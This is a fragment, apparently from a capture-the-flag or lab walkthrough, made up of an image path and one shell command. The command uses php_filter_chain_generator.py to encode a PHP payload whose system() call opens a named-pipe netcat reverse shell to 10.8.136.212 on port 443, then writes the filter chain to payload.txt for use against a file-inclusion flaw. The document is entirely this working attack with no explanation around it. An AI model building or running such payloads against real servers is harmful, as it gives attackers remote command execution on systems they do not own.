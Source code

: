 python3 php_filter_chain_generator.py --chain '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.136.212 443 >/tmp/f"); ?>' | grep '^php' > payload.txt
